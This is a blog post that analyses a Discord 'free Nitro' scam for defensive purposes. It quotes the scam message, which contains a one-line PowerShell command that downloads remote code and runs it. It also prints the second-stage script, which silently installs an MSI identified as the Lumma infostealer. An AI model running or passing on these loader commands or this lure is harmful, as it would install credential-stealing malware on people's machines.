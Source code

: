 ```yaml
---
title: 'Analysis of a Discord Nitro Scam'
date: 2025-08-05
description: "Analyzing and dissecting a Discord Nitro Scam and understanding how its malware installer works"
author: 'ABUCKY0'
banner: /blog/analysis-of-a-discord-nitro-scam.png
unlisted: false
tags: ["discord", "nitro", "scam", "analysis", "malware"]
---
```

## Introduction
I'd like to start this out by saying that this is not a guide on how to run the scam, but rather an analysis of how it works and why you should never run it. Please do not attack anyone sending this scam, it's likely they themselves were scammed into running this one or another scam and are not aware of the consequences of running it.

> [!WARNING]
> The code snippets below are malicious. **Do not run them**. I do not control the domain and the infostealer this scam downloads can and will still steal your information.

> [!NOTE]
> The domain referenced below is offline as of writing this blog post, however it's still not recommended to run the scripts below in the case that it is reenabled.
## The Scam Message
I first encountered this scam on Discord in a server I moderate. The scammer sent a message with the following text:
```md
Hey, someone in a private server just shared
this Nitro method.
Apparently you can activate free Nitro by
running this in CMD:

`​powershell -command "if (($Mode = 'app') -and ($ActivateNitro = 'nitro' + 'features.' + $Mode + '/dev')) { $chart = iwr $ActivateNitro -UseBasicParsing; iex $chart.Content }" ​`

I haven't tested it myself yet, but a few people
said it worked for them.
Thought I'd send it to you before it gets
removed or patched.
```

You need a bit of knowlege with powershell to notice anything weird about this. The first thing a seasoned programmer might notice is that in the if statement comparison, it uses only one equal sign. `if (($Mode = 'app')` isn't checking if `$Mode` is equal to `'app'`, it's setting $Mode to app. Powershell comparison operators are like `-eq` for equal, `-ne` for not equal, and similar. You can see all of them on [the Microsoft powershell documentation](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_operators?view=powershell-7.5#assignment-operators).

The second portion of that if statement is doing the same thing. `$ActivateNitro` is being set to `'nitro' + 'features.' + 'app' + '/dev'`. The `-and` in the middle is truthy, meaning it always evaluates to `true`.

`iwr` or `Invoke-WebRequest` is downloading the contents of nitrofeatures|.app/dev. Then `iex` or `Invoke-Expression` executes it's input as a powershell command.

So the whole if statement is doing is:
- Setting `$Mode` to "app"
- Setting `$ActivateNitro` to nitrofeatures|.app/dev (vertical bar added to prevent a link being made)
- Downloading the contents of nitrofeatures|.app/dev into a variable in memory.
- Executing the downloaded powershell script. 


# The Hosted Powershell Script
This one is a bit more straightforward and obvious. Certain portions have been commented out and edited to prevent link embedding.

```powershell
$targetDir = "$env:APPDATA\Svservices"
if (-not (Test-Path $targetDir)) {
    New-Item -ItemType Directory -Path $targetDir -Force | Out-Null
}
$filename = "new2.msi"
$url = #"[https://]nitrofeatures[.]app/$fileName"
$fullPath = "$targetDir\$fileName"

Invoke-WebRequest $url -OutFile $fullPath

Push-Location $targetDir
Start-Process "msiexec.exe" -ArgumentList "/i `"$fullPath`" /qn /norestart" -Wait
Pop-Location

Write-Host "Access to Nitro functionality is temporarily paused due to load. Please try again in 48 hours." -ForegroundColor Yellow
```

I'll quickly go line by line below:

- `$targetDir = "$env:APPDATA\Svservices"` - Creates a variable that holds the name of the directory that the malware is downloaded to.
- ```ps1
  if (-not (Test-Path $targetDir)) {
      New-Item -ItemType Directory -Path $targetDir -Force | Out-Null
  }
  ```
  Checks if the Svservices folder has already been created. If it hasn't, create it. Pipe all output to the void (Out-Null doesn't print it to console).
- ```ps1
  $filename = "new2.msi"
  $url = https://nitrofeatures[.]app/$fileName"
  $fullPath = "$targetDir\$fileName"
  ```
  `$filename` stores the name of the malicious msi file. `$url` stores the download url for the msi file. `$fullPath` stores the download path for the msi executable.
- ```ps1
  Invoke-WebRequest $url -OutFile $fullPath
  ```
  Downloads the msi executable to the Svservices folder. 

- Now the next three lines are the interesting ones. Up until I encountered this malware, I had never seen `Push-Location` and `Pop-Location`. Basically these work as a stack. You push the new location onto the stack (In this case the malware's storage directory), which then changes your current working directory to the one you pushed. 
  ```ps1
  Push-Location $targetDir
  Start-Process "msiexec.exe" -ArgumentList "/i `"$fullPath`" /qn /norestart" -Wait
  Pop-Location
  ```
  `msiexec.exe` installs MSI files. Basically the msiexec command is installing the malware, without a gui or text output, and then doesn't restart the computer.  
  `Pop-Location` returns the current working directory back to the place it was when you opened the Powershell window.
- And then of course, last but not least, it tells the user that their 'free nitro' couldn't be setup since there's no actual free nitro being done. 
  ```ps1
  Write-Host "Access to Nitro functionality is temporarily paused due to load. Please try again in 48 hours." -ForegroundColor Yellow
  ```

# The malware itself
During analyzing the above, I used a https://tria.ge vm. You can read the full report on [https://tria.ge/250805-vmsmlsyjw6/behavioral2](https://tria.ge/250805-vmsmlsyjw6/behavioral2), but tl;dr it's an infostealer. More specifically, it's a Lumma infostealer. According to triage, it tried to look at local email clients, indexed installed software on teh system, and looked to see if there were any other drives. I presume it can also steal discord tokens and such which allows this malware to spread. I can't look into it much farther because the scam domain was taken down when I had tried to go back in and look further. However, it's probably a standard "look in folders that have common stealable stuff like email logins and send them back to the control server".